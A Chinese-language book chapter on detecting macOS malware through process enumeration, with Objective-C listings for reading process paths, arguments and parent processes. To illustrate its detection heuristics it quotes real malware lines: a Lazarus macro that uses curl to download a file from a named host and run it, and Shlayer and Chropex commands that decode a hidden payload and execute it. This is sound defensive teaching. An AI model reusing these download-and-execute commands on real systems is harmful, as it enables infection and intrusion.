


## 第一章：1 检查进程


大多数 Mac 恶意软件以独立进程的形式持续运行在感染的系统上。因此，如果你生成一个运行中的进程列表，很可能会包含系统上存在的任何恶意软件。因此，当你试图通过编程检测 macOS 恶意软件时，应该首先检查进程。在本章中，我们将首先讨论枚举正在运行的进程的各种方法。然后，我们将编程提取每个运行进程的各种信息和元数据，以揭示与恶意软件常见的异常情况。这些信息可以包括完整路径、参数、架构、进程、层次结构、代码签名信息、加载的库、打开的文件等。

当然，恶意进程出现在列表中并不立即意味着该进程就是恶意的。随着恶意软件作者不断努力将恶意程序伪装成良性的，这一点变得愈发正确。

本章中展示的大部分代码片段来自 *enumerateProcesses* 项目，你可以从本书的 GitHub 仓库下载该项目的代码。当没有参数时执行此工具，它将显示你系统上所有运行进程的信息；当传递一个进程 ID 时，它将检索指定进程的信息。要查询一个进程，运行代码的权限级别必须与目标进程相匹配或更高，因此像这样的安全工具通常需要以 root 权限运行。

### 进程枚举

在 macOS 上枚举所有进程最简单的方法是通过 libproc API，例如 proc_listallpids。顾名思义，该 API 提供一个包含每个运行进程的进程 ID（pid）列表。作为参数，它需要一个输出缓冲区和该缓冲区的大小。它将填充该缓冲区，包含所有运行进程的进程 ID，并返回运行进程的数量。

你怎么知道输出缓冲区应该多大呢？一种策略是首先调用 API，传递 NULL 和 0 作为参数。这会导致该函数返回当前正在运行的进程数，然后你可以使用这个数量来分配缓冲区，以便后续调用。然而，如果在这个过程中产生了一个新进程，API 可能无法返回其进程 ID。

因此，最好分配一个缓冲区来保存最大数量的可能运行进程。现代版本的 macOS 通常可以支持数千个进程，但这个数字可能会根据系统配置而更高（或更低）。由于这个可变性，你需要通过 sysctlbyname API 从 kern.maxproc 系统变量中动态获取这个最大值（见列表 1-1）。

```
#import <libproc.h>
#import <sys/sysctl.h>

int32_t processesCount = 0;
size_t length = sizeof(processesCount);

sysctlbyname("kern.maxproc", &processesCount, &length, NULL, 0); 
```

列表 1-1：动态获取最大运行进程数

现在我们已经知道了可能的最大运行进程数，我们只需分配一个大小为该数量与每个进程 ID 大小的乘积的缓冲区。然后我们调用 proc_listallpids 函数（列表 1-2）。

```
pid_t* pids = calloc((unsigned long)processesCount, sizeof(pid_t));
processesCount = proc_listallpids(pids, processesCount*sizeof(pid_t)); 
```

列表 1-2：生成运行进程的进程标识符列表

现在我们可以添加打印语句，然后执行此代码：

```
% **./enumerateProcesses**
Found 450 running processes

PIDs: (
    53355,
    53354,
    53348,
    ...
    517,
    515,
    514,
    1,
    0
) 
```

该代码应该返回一个包含所有运行进程的进程 ID 列表，如你在执行 *enumerateProcesses* 项目时所看到的那样。

### 审计令牌

尽管进程 ID 在系统范围内用于标识进程，但它们在进程退出后可以被重用，这会导致一个竞态条件，其中进程 ID 不再指向原始进程。解决进程 ID 竞态条件问题的方法是使用进程的 *审计令牌*，这是一个独特的值，永远不会被重用。在后续章节中，你将看到 macOS 有时会直接提供审计令牌，例如当进程试图连接到远程 XPC 端点或 Endpoint Security 发来的消息时。不过，你也可以直接从任意进程获取其审计令牌。

你会在 *enumerateProcesses* 项目中的一个名为 getAuditToken 的函数里找到获取审计令牌的代码。该函数根据进程 ID 返回其审计令牌（列表 1-3）。

```
NSData* getAuditToken(pid_t pid) {

    task_name_t task = {0};
    audit_token_t token = {0};
    mach_msg_type_number_t infoSize = TASK_AUDIT_TOKEN_COUNT;

  ❶ task_name_for_pid(mach_task_self(), pid, &task);
  ❷ task_info(task, TASK_AUDIT_TOKEN, (integer_t*)&token, &infoSize);

 ❸ return [NSData dataWithBytes:&token length:sizeof(audit_token_t)];
} 
```

列表 1-3：获取进程的审计令牌

首先，函数声明了所需的变量，包括一个类型为 audit_token_t 的变量，用于保存审计令牌。接着它调用 task_name_for_pid API 获取指定进程的 Mach 任务 ❶。你需要这个任务来调用 task_info，它将把进程的审计令牌填充到传入的变量中 ❷。最后，审计令牌被转换为一个更易于管理的数据对象 ❸，并将其返回给调用者。^(1)

当然，进程 ID 或审计令牌的列表并不能告诉你哪些（如果有的话）是恶意的。尽管如此，你现在可以提取大量有价值的信息。接下来的章节将从一个简单的任务开始：检索每个进程的完整路径。

### 路径和名称

一种简单的方法是通过 proc_pidpath API 从进程 ID 查找进程的完整路径。该 API 接受进程 ID、路径的输出缓冲区以及缓冲区的大小。你可以使用常量 PROC_PIDPATHINFO_MAXSIZE 来确保缓冲区足够大以容纳路径，如列表 1-4 所示。

```
char path[PROC_PIDPATHINFO_MAXSIZE] = {0};
proc_pidpath(pid, path, PROC_PIDPATHINFO_MAXSIZE); 
```

列表 1-4：检索进程的路径

还有其他方法可以获取进程的路径，其中一些方法不需要进程 ID。我们将在第三章中介绍一种替代方法，因为它需要理解与代码签名相关的各种概念。

一旦获得了进程的路径，你可以利用它执行各种检查，帮助你判断该进程是否为恶意进程。这些检查可以是简单的，比如查看路径是否包含隐藏的组件，也可以是更复杂的（例如，对路径中指定的二进制文件进行深入分析）。本章讨论了隐藏路径组件，而下一章将深入探讨完整的二进制分析。

#### 识别隐藏的文件和目录

路径中的信息可以直接揭示异常。例如，路径中包含以点（.）为前缀的目录或文件组件，默认情况下将在用户界面和各种命令行工具中被隐藏。（当然，也有方法查看隐藏项，例如通过执行带有 -a 标志的 ls 命令。）从恶意软件的角度来看，保持隐藏是件好事。然而，这也成为了一种强有力的检测启发式，因为良性进程很少会被隐藏。

有很多 Mac 恶意软件的例子，它们从隐藏目录中执行或本身就被隐藏。例如，名为 DazzleSpy 的网络间谍植入程序，^(2) 在 2022 年初被发现，它会作为名为 *softwareupdate* 的二进制文件持久安装在名为 *.local* 的隐藏目录中。在进程列表中，这个目录显得非常突兀：

```
% **./enumerateProcesses**
Found 450 running processes

(57312):/Applications/Signal.app/Contents/MacOS/Signal
(41461):/Applications/Safari.app/Contents/MacOS/Safari
(40214):/Users/User/**.local**/softwareupdate
(29853):/System/Applications/Messages.app/Contents/MacOS/Messages
(11242):/System/Library/CoreServices/Dock.app/Contents/MacOS/Dock
...
(304):/usr/libexec/UserEventAgent
(1):/sbin/launchd 
```

当然，任何基于启发式的方法都不可避免地会产生误报，你偶尔会遇到合法的软件将自己隐藏。例如，我的 Wacom 绘图板会创建一个名为*.Tablet*的隐藏目录，从该目录中持续运行各种程序。

#### 获取已删除二进制文件的路径

在 macOS 上，进程没有任何障碍来删除其支持的磁盘上的二进制文件。恶意软件作者意识到这个选项，并可能设计出一种程序，通过悄悄地从文件系统中删除自己的二进制文件来隐藏自己，从而避开文件扫描器，复杂化分析。你可以在 Mac 恶意软件中看到这种异常行为，例如 KeRanger 和 NukeSped，后者曾在臭名昭著的 3CX 供应链攻击中被使用。^(3)

让我们更仔细地看看 KeRanger，它是一款勒索病毒，唯一的目的是加密受害者的文件并索要赎金。由于它在单次执行过程中完成这两个操作，因此在生成后不需要再保留其二进制文件。如果你查看它的主函数的反汇编，你会看到 KeRanger 的第一个动作是通过调用 unlink API 来删除自己：

```
int main(int argc, const char* argv[]) {
    ...
    unlink(argv[0]); 
```

如果安全工具获取了 KeRanger 进程的进程 ID（可能是因为勒索病毒的行为触发了检测启发式分析），像 proc_pidpath 和 SecCodeCopyPath 这样的路径恢复 API 将会失败。这些 API 中的第一个，通常返回进程路径的长度，在这种情况下将返回零，并且 errno 会被设置为 ENOENT，而 SecCodeCopyPath 则会直接返回 kPOSIXErrorENOENT。这将告诉你，进程的二进制文件已经被删除，这本身就是一个警告信号，因为正常的进程通常不会自删除。

如果你仍然想恢复现在已删除的二进制文件的路径，不幸的是，你的选择相当有限。一种方法是直接从进程的参数中提取路径。我们将在稍后章节的“进程参数”部分讲解这一方法，参见第 9 页。然而值得注意的是，一旦进程启动，就没有任何东西阻止进程修改其参数，包括路径。因此，恢复的路径可能已经被悄悄修改，不再指向自删除的二进制文件。

#### 验证进程名称

恶意软件作者知道他们的恶意程序会出现在苹果内置的活动监视器中，即便是普通用户，也可能仅凭注意到一个奇怪的进程名称就发现感染。因此，Mac 恶意软件通常会尝试伪装成 macOS 的核心组件或流行的第三方软件。我们通过两个例子来说明这一点。

ElectroRAT 是 2021 年初被曝光的一种远程访问工具（RAT），专门针对加密货币用户。^(4)它试图通过将自己命名为*.mdworker*来融入系统。在旧版本的 macOS 中，你通常会发现多个合法的 Apple 元数据服务器进程（*mdworker*）在运行。恶意软件可以利用这个相同的名称来避免引起怀疑，至少在普通用户眼中是如此。

幸运的是，由于代码签名（稍后在本章中简要讨论，详细内容见第三章），你可以检查一个进程的代码签名信息是否与其显著的创建者匹配。例如，很容易发现 ElectroRAT 的*.mdworker*二进制文件是可疑的。首先，它没有由苹果签名，这意味着它不是库比蒂诺的开发者创建的。一个匹配知名 macOS 进程名称但不属于苹果的二进制文件，很可能是恶意软件。最后，由于其名称以点开头，ElectroRAT 的进程文件也被隐藏，这又是一个警告信号。

另一个例子是 CoinMiner，一种隐秘的加密货币矿工，利用隐形互联网项目（I2P）进行加密通信。实现 I2P 逻辑的网络组件名为*com.adobe.acc.network*，以模仿 Adobe 软件，后者以安装各种守护进程而著名。通过检查进程的代码签名信息，你可以发现 Adobe 并没有签署这个二进制文件。

你现在可能在想，如何确定一个进程的名称。对于非应用程序进程，如命令行程序或系统守护进程，这个名称通常对应于文件组件。如果完整路径存储在字符串或 URL 对象中，你可以通过 lastPathComponent 实例属性检索此组件。例如，列表 1-5 中的代码提取了 ElectroRAT 的进程名称，*.mdworker*，并将其存储在变量 name 中。

```
NSString* path = @"/Users/User/.mdworker";
NSString* name = path.lastPathComponent; 
```

列表 1-5：提取 ElectroRAT 的进程名称

如果该进程是一个应用程序，你可以通过 runningApplicationWithProcessIdentifier: 方法实例化一个 NSRunningApplication 对象。该对象将提供多种信息，其中最相关的是应用程序捆绑包的路径，该路径保存在 bundleURL 实例属性中。捆绑包包含大量信息，但这里最重要的是应用程序的名称。列表 1-6 中的 *enumerateProcesses* 项目中的 getProcessName 函数展示了如何针对给定的进程 ID 提取此信息。

```
NSRunningApplication* application =
[NSRunningApplication runningApplicationWithProcessIdentifier:pid];
if(nil != application) {
    NSBundle* bundle = [NSBundle bundleWithURL:application.bundleURL];
    NSString* name = bundle.infoDictionary[@"CFBundleName"];
} 
```

列表 1-6：提取应用程序名称

从 NSRunningApplication 对象中，我们创建一个 NSBundle 对象，然后从捆绑包的 infoDictionary 实例属性中提取应用程序的名称。如果该进程不是应用程序，NSRunningApplication 实例化将会优雅地失败。

### 进程参数

提取并检查每个正在运行的进程的参数可以揭示该进程的活动。它们本身也可能看起来很可疑。臭名昭著的 Shlayer 恶意软件的安装程序提供了一个典型的示例。它执行了一个带有以下参数的 bash shell：

```
"tail -c +1381 \"/Volumes/Install/Installer.app/Contents/Resources/main.png\" |
openssl enc -aes-256-cbc -salt -md md5 -d -A -base64 -out /tmp/ZQEifWNV2l -pass
\"pass:0.6effariGgninthgiL0.6\" && chmod 777 /tmp/ZQEifWNV2l ... && rm -rf /tmp/ZQEifWNV2l" 
```

这些参数指示 bash 执行各种 shell 命令，从一个伪装成名为 *main.png* 的图像文件中提取字节，将其解密为名为 *ZQEifWNV2l* 的二进制文件，然后执行并删除该二进制文件。尽管 bash 本身并不具备恶意性，但从 *.png* 文件中程序化地提取加密的可执行内容表明某些可疑活动正在进行；安装程序通常不会执行如此晦涩的混淆操作。我们还对安装程序的行为有了进一步的了解。

另一个具有明显可疑参数的程序是 Chropex，也叫做 ChromeLoader。^(5) 这个恶意软件安装一个启动代理，持久性地执行 Base64 编码的命令。CrowdStrike 的一份报告^(6)展示了一个 Chropex 启动代理的示例，下面是一个摘录：

```
<key>ProgramArguments</key>
<array>
    <string>sh</string>
    <string>-c</string>
    <string>echo aWYgcHMg ... Zmk= | base64 --decode | bash</string>
</array> 
```

最后的参数字符串以 echo 开头，包含一个编码的二进制数据块和一个命令，用来解码并通过 bash 执行它。显然，这样的参数非常不寻常，是系统被恶意软件持久感染的迹象。一旦检测程序遇到这个启动代理并提取其非常可疑的参数，该程序应立即触发警报。

如我之前提到的，提取程序的运行时参数可能会为其功能提供一些线索。例如，一个隐藏的加密货币矿工在官方 Mac App Store 中伪装成一个无害的日历应用（Figure 1-1）。



Figure 1-1: 一个无害的日历应用，还是其他什么东西？

为了查看这个应用程序的功能，我们可以检查进程参数。当 Calendar 2 应用程序 *CalendarFree.app* 被执行时，它会从 *Coinstash_XMRSTAK* 框架中生成一个嵌入的子程序，名为 *xmr-stak*，并传入以下参数：

```
"--currency",
"monero",
"-o",
"pool.graft.hashvault.pro:7777",
"-u",
"G81Jc3KHStAWJjjBGzZKCvEnwCeRZrHkrUKj ... 6ophndAuBKuipjpFiizVVYzeAJ",
"-p",
"qbix:greg@qbix.com",
... 
```

根据诸如“--currency”和“monero”这样的值，即使是普通读者也应该能够判断出 *xmr-stak* 是一个加密货币矿工。尽管 *xmr-stak* 是一个合法的命令行应用程序，但它通过一个托管在苹果 Mac App Store 上的免费日历应用悄然部署，已越过了界限。

> 注意

*在我发布了关于这个应用的详细博客文章后，*^(7) *苹果删除了该应用，并更新了 App Store 的条款和条件，明确禁止设备上的挖矿行为。*^(8)

最后，提取进程的参数可以帮助你在判断进程可疑并需要进一步分析时。例如，在 2023 年初，我发现了一款与广泛传播的 Genieo 恶意软件家族有关的恶意更新程序，这个程序已经未被发现近五年。^(9) 然而，事实证明，这个名为*iWebUpdate*的持续更新程序，除非用正确的参数调用（例如更新以及 C=和客户端标识符），否则不会执行其核心逻辑。

这意味着，如果你尝试在调试器中分析 *iWebUpdate* 二进制文件并执行它而没有预期的参数，它将直接退出。虽然静态分析方法如逆向工程可以揭示这些必需的参数，但从受感染系统上持续运行的更新进程中提取它们要简单得多。

那么，如何提取一个任意进程的参数呢？一种方法是通过调用带有 KERN_PROCARGS2 的 sysctl API。*enumerateProcesses* 项目在名为 getArguments 的函数中采用了这种方法。给定一个任意的进程 ID，这个函数将提取并返回该进程的参数。这个函数相当复杂，因此我将它分成几个部分来讲解，首先是对 sysctl API 的调用（Listing 1-7）。

```
int mib[3] = {0};
int systemMaxArgs = 0;

size_t size = sizeof(systemMaxArgs);

mib[0] = CTL_KERN;
mib[1] = KERN_ARGMAX;

❶ sysctl(mib, 2, &systemMaxArgs, &size, NULL, 0);

❷ char* arguments = malloc(systemMaxArgs); 
```

Listing 1-7: 为进程参数分配缓冲区

这个 API 需要一个输出缓冲区来保存进程参数，因此我们首先通过调用 KERN_ARGMAX 来确定它们的最大大小 ❶。在这里，我们将这些信息指定在一个管理信息基础（MIB）数组中，数组的元素数量也作为参数传递给 sysctl。然后我们分配一个正确大小的缓冲区 ❷。

分配了缓冲区后，我们现在可以重新调用 sysctl API。但首先，我们需要使用诸如 KERN_PROCARGS2 和我们想要获取其参数的进程 ID 等值重新初始化 MIB 数组（示例 1-8）。

```
size = (size_t)systemMaxArgs;

mib[0] = CTL_KERN;
mib[1] = KERN_PROCARGS2;
mib[2] = processID;

sysctl(mib, 3, arguments, &size, NULL, 0); 
```

示例 1-8：获取进程的参数

在这个调用之后，缓冲区将包含进程参数等信息。表格 1-1 描述了该缓冲区的结构。

表格 1-1：KER_PROCARGS2 缓冲区的格式

| 参数数量 | 进程路径 | 参数 |
| --- | --- | --- |
| int argc | <进程的完整路径> | char* argv[0], argv[1]，依此类推 |

首先，我们可以提取参数的数量（通常称为 argc）。你可以跳过进程路径，直接进入参数的开始位置（通常称为 argv），除非你以其他方式无法获得进程路径。每个参数都是 NULL 终止的，这使得提取过程非常直接。示例 1-9 中的代码展示了如何将每个参数作为字符串对象保存到数组中。注意，参数变量是现在已经填充的缓冲区，该缓冲区传递给了 sysctl API。

```
int numberOfArgs = 0;
NSMutableArray* extractedArguments = [NSMutableArray array];

❶ memcpy(&numberOfArgs, arguments, sizeof(numberOfArgs));
❷ parser = arguments + sizeof(numberOfArgs);

❸ while(NULL != *++parser);
❹ while(NULL == *++parser);

while(extractedArguments.count < numberOfArgs) {
  ❺ [extractedArguments addObject:[NSString stringWithUTF8String:parser]];
    parser += strlen(parser) + 1;
} 
```

示例 1-9：解析进程参数

代码首先提取参数的数量（位于参数缓冲区的开始位置）❶。然后跳过这个值❷、路径的字节❸以及任何后续的 NULL 字节❹。现在，解析器指针指向实际参数（argv）的起始位置，代码将逐一提取这些参数❺。值得注意的是，除非进程偷偷修改了自身，argv[0]始终是程序路径。

如果我们执行*enumerateProcesses*项目，当遇到前述的 xmr-stak 进程（此处显示其进程 ID 为 14026）时，它应该显示以下信息。如果一个毫无察觉的用户启动了*CalendarFree.app*，该进程会偷偷进行加密货币挖矿：

```
% **./enumerateProcesses**
...
(14026):/Applications/CalendarFree.app/Contents/Frameworks/
Coinstash_XMRSTAK.framework/Resources/xmr-stak
...
arguments: (
"/Applications/CalendarFree.app/Contents/Frameworks/Coinstash_XMRSTAK.
framework/Resources/xmr-stak",
"--currency",
"monero",
"-o",
"pool.graft.hashvault.pro:3333",
"-u",
"G81Jc3KHStAWJjjBGzZKCvEnwCeRZrHkrUKji9NSDLtJ6Evhhj43DYP7dMrYczz5KYjfw
6ophndAuBKuipjpFiizVVYzeAJ",
"-p",
"qbix:greg@qbix.com",
...
) 
```

进程启动时带有如此大量的参数是相当不寻常的。此外，这些参数明显暗示该进程是一个加密货币矿工。我们可以通过以下事实进一步加强这个结论：其父进程*CalendarFree.app*消耗了大量的 CPU 资源，稍后你将在本章看到这一点。

### 进程层级

*进程层级*是进程之间的关系（例如，父进程与子进程之间）。在检测恶意软件时，你需要准确地表示这些关系，原因有几个。首先，进程层级可以帮助你检测初始感染。进程层级还可以揭示那些难以检测的恶意软件，它们以不正当的方式利用系统二进制文件。

让我们看一个例子。2019 年，Lazarus 高级持续威胁（APT）组织被发现利用含有宏的 Office 文档攻击 macOS 用户。如果用户打开该文档并允许宏运行，代码将下载并执行名为 Yort 的恶意软件。以下是该攻击中使用的宏的代码片段：

```
sur = "https://nzssdm.com/assets/mt.dat"
spath = "/tmp/": i = 0

Do
    spath = spath & Chr(Int(Rnd * 26) + 97)
    i = i + 1
Loop Until i > 12
spath = spath

❶ res = system("curl -o " & spath & " " & sur)
❷ res = system("chmod +x " & spath)
❸ res = popen(spath, "r") 
```

由于宏代码没有被混淆，因此很容易理解。它首先通过 curl ❶ 从 *https://<wbr>nzssdm<wbr>.com<wbr>/assets<wbr>/mt<wbr>.dat* 下载一个文件到 */tmp* 目录，然后设置文件的执行权限 ❷，接着执行下载的文件 *mt.dat* ❸。图 1-2 从进程层级的角度说明了这次攻击。



图 1-2：Lazarus 组攻击的简化进程层级

尽管该图略显简化（省略了分叉并使用了进程 ID 的符号值），但它准确地描述了 curl、chmod 和恶意软件作为 Microsoft Word 的子进程的事实。Word 文档通常会启动 curl 来下载并启动二进制文件吗？当然不会！即使你无法确切知道这些子进程在做什么，但 Office 文档启动它们这一事实是攻击的明显标志。而且，没有进程层级结构，检测到这种感染的这一方面将相对困难，因为 curl 和 chmod 都是合法的系统二进制文件。^(10)

#### 查找父进程

进程层级是从子进程向上构建的，通过父进程、祖父进程等。表面上看，我们可以通过其 kp_eproc 结构中的 e_ppid 成员轻松生成一个给定进程的层级，这个结构可以在 kinfo_proc 结构中找到。以下是这些结构，它们位于 *sys/sysctl.h* 中：

```
struct kinfo_proc {
    struct  extern_proc kp_proc;    /* proc structure */
    struct  eproc {
        struct  proc* e_paddr;      /* address of proc */
        ...
        pid_t   e_ppid;             /* parent process id */
        ...
    } kp_eproc;
}; 
```

e_ppid 是父进程 ID，我们可以通过 sysctl API 提取它，如 *enumerateProcesses* 项目中的 getParent 函数所示（列表 1-10）。

```
pid_t parent = -1;

struct kinfo_proc processStruct = {0};
size_t procBufferSize = sizeof(processStruct);

int mib[4] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, processID};

sysctl(mib, 4, &processStruct, &procBufferSize, NULL, 0);
parent = processStruct.kp_eproc.e_ppid; 
```

列表 1-10：提取父进程的进程 ID

代码首先初始化各种参数，包括一个数组，数组中的值指示系统返回有关指定进程的信息。sysctl API 会响应这个请求，返回一个已填充的 kinfo_proc 结构。然后我们从中提取进程的父进程 ID。

下面是 *enumerateProcesses* 在遇到由恶意文档启动的 curl 实例时的输出：

```
% **./enumerateProcesses**
...
(2286):/usr/bin/curl
...
parent: /Applications/Microsoft Word.app/Contents/MacOS/Microsoft Word (2283) 
```

代码能够轻松识别父进程为 Microsoft Word。

不幸的是，使用这个 e_ppid 值构建的进程层级通常并不那么有用，因为该值通常报告父进程 ID 为 1，这对应于 *launchd*，负责启动每个进程的进程。为了观察这一行为，可以通过 Spotlight、Finder 或 Dock 启动像计算器这样的应用程序。然后使用 ps 工具并结合 ppid 命令行，将进程 ID 传递给它。你应该看到它的父进程 ID（PPID）实际上是 1：

```
% **ps aux**
USER     PID  ... COMMAND
Patrick  2726 ... /System/Applications/Calculator.app/Contents/MacOS/Calculator
% **ps aux -o ppid 2726**
USER      PID     ...    PPID
Patrick   27264   ...    1 
```

*enumerateProcesses*工具报告了相同的、并不特别有用的信息：

```
% **./enumerateProcesses**
...
(2726):/System/Applications/Calculator.app/Contents/MacOS/Calculator
...
parent: (1) launchd 
```

虽然*launchd*技术上是父进程，但它并没有提供我们需要的信息来检测恶意活动。我们更关心的是负责启动子进程的进程。

#### 返回负责生成另一个进程的进程

为了返回负责生成另一个进程的进程，我们可以利用一个私有的 Apple API，responsibility_get_pid_responsible_for_pid。它接受一个进程 ID 并返回它认为对子进程负责的父进程。尽管这个私有 API 的内部实现超出了本讨论的范围，但它本质上是查询内核，内核在内部进程结构中维护着负责父进程的记录。

由于这不是一个公开 API，我们必须通过 dlsym API 动态解析它。清单 1-11，来自*enumerateProcesses*项目中的 getResponsibleParent 函数，展示了实现这一任务的代码。

```
#import <dlfcn.h>

pid_t getResponsibleParent(pid_t child) {
    pid_t (*getRPID)(pid_t pid) =
    dlsym(RTLD_NEXT, "responsibility_get_pid_responsible_for_pid");
    ... 
```

清单 1-11：动态解析私有函数

这段代码通过名称解析函数，并将结果存储在一个名为 getRPID 的函数指针中。因为这个函数只接受一个 pid_t 类型的参数，并且返回一个 pid_t 类型的负责进程 ID，所以你可以看到该函数指针被声明为 pid_t (*getRPID)(pid_t pid)。

在检查确认确实找到了函数后，我们可以通过函数指针调用它，如清单 1-12 所示。

```
if(NULL != getRPID) {
    pid_t parent = getRPID(child);
} 
```

清单 1-12：调用已解析的函数

现在，当*enumerateProcesses*遇到子进程时，例如 Safari 的 XPC Web 内容渲染器（显示为*Safari Web Content*或*com.apple.WebKit.WebContent*），*enumerateProcesses*中的代码会查找父进程和负责进程：

```
% **./enumerateProcesses**
...
(10540)/System/Library/Frameworks/WebKit.framework/Versions/A/
XPCServices/com.apple.WebKit.WebContent.xpc/Contents/MacOS/
com.apple.WebKit.WebContent
...
parent: (1) launchd
responsible parent: (8943) Safari 
```

它通过检查进程的 e_ppid 来完成前者，通过调用 responsibility_get_pid_responsible_for_pid API 来完成后者。在这种情况下，负责的进程提供了更多的上下文，因此在构建准确的进程层级时更有价值。

不幸的是，对于用户启动的应用程序（这可能包括恶意软件），这个负责父进程可能只是进程本身。要查看这一点，只需通过在 Finder 中双击其应用程序图标来启动计算器应用程序。然后再次运行*enumerateProcesses*：

```
% **./enumerateProcesses**
...
(2726):/System/Applications/Calculator.app/Contents/MacOS/Calculator
...
parent: (1) launchd
responsible parent: (2726) Calculator 
```

这个工具并没有提供太有用的信息，它将负责父进程标识为计算器本身。幸运的是，还有一个地方可以找到这些信息，不过我们必须回溯到过去。

#### 使用应用服务 API 检索信息

尽管官方已废弃，Apple 的应用服务 API 在最新版本的 macOS 中仍然有效，并且各种 Apple 守护进程仍在使用它们。ProcessInformationCopyDictionary 应用服务 API 返回一个字典，其中包含大量信息，包括进程的真实父进程。

这个 API 并不是以进程 ID 作为参数，而是以进程序列号（psn）作为参数。进程序列号是进程 ID 的前身。进程序列类型是 ProcessSerialNumber，在 *include/MacTypes.h* 中定义。要从给定的进程 ID 获取进程序列号，可以使用 GetProcessForPID 函数，参见列表 1-13。

```
#import <AppKit/AppKit.h>
pid_t pid = <some process id>;

ProcessSerialNumber psn = {kNoProcess, kNoProcess};
GetProcessForPID(pid, &psn);

printf("Process Serial Number (high, low): %d %d\n", psn.highLongOfPSN, psn.lowLongOfPSN); 
```

列表 1-13：检索进程的序列号

该函数接受一个进程 ID 和一个指向 ProcessSerialNumber 的输出指针，函数会将进程的序列号填充到该指针中。

你可以在 *enumerateProcesses* 项目中的名为 getASParent 的函数里找到通过序列号获取父进程 ID 的逻辑。列表 1-14 包含了这个函数的代码片段，展示了它如何调用 ProcessInformationCopyDictionary 函数以获取指定进程的信息。

```
NSDictionary* processInfo = nil;
ProcessSerialNumber psn = {kNoProcess, kNoProcess};

GetProcessForPID(pid, &psn);

processInfo = CFBridgingRelease(ProcessInformationCopyDictionary(&psn,
(UInt32)kProcessDictionaryIncludeAllInformationMask)); 
```

列表 1-14：获取进程信息字典

需要记住的一点是，返回 CoreFoundation 对象的旧版 API 不使用自动引用计数（ARC）。这意味着必须明确指示运行时如何管理对象，以避免内存泄漏。在这里，这意味着从 ProcessInformationCopyDictionary 调用返回的进程信息字典必须显式释放，通过调用 CFRelease 进行释放，或者桥接到 NSDictionary 对象并通过调用 CFBridgingRelease 释放到 ARC 中。代码选择了后者，因为与 NS* 对象打交道比与旧版 CF* 对象打交道更为简便，且避免了显式释放内存的麻烦。

在我们将 CFDictionaryRef 字典桥接成 NSDictionary 对象后，就可以直接访问其键值对，包括进程的父进程。父进程的进程序列号存储在 ParentPSN 键中。由于其类型为 kCFNumberLongLong（long long），因此必须手动重建进程序列号（参见列表 1-15）。

```
ProcessSerialNumber ppsn = {kNoProcess, kNoProcess};

ppsn.lowLongOfPSN = [processInfo[@"ParentPSN"] longLongValue] & 0x00000000FFFFFFFFLL;
ppsn.highLongOfPSN = ([processInfo[@"ParentPSN"] longLongValue] >> 32) & 0x00000000FFFFFFFFLL; 
```

列表 1-15：重建父进程序列号

一旦获取了父进程的进程序列号，就可以通过重新调用 ProcessInformationCopyDictionary API 获取关于父进程的详细信息（这一次，当然是用父进程的进程序列号）。这样可以得到其进程 ID、路径、名称等信息。在这里，我们最关注的是进程 ID，可以在名为 pid 的键中找到。

